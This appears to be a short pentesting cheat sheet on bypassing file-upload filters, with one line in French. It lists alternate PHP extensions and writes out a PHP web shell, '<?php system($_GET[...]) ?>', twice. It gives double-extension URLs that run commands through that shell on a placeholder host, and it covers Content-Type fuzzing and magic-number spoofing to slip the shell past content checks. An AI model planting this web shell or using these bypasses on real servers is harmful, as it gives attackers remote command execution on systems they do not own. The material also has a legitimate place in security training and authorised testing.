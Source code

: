 ## Extensions

```
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
.phtml
```

```sh
echo '<?php system($_GET["command"]); ?>' > file.ext
```

```sh
# Double Extensions
http://vuln.com/upload/shell.jpg.php?cmd=id

# Reverse Double Extension
http://vuln.com/upload/shell.php.jpg?cmd=id
```

## Type Filters

There are two common methods for validating the file content: `Content-Type Header` or `File Content`.

- We may start by fuzzing the Content-Type header with

```sh
cat /opt/seclists/Miscellaneous/Web/content-type.txt | grep 'image/' > image-content-types.txt
```

## Magic-Numbers

- https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5

- https://en.wikipedia.org/wiki/List_of_file_signatures


```sh
echo '<?php system($_GET["cmd"]); ?>' > file.php
```

Copier une des signature dans le fichier

```sh
hexeditor file.php
```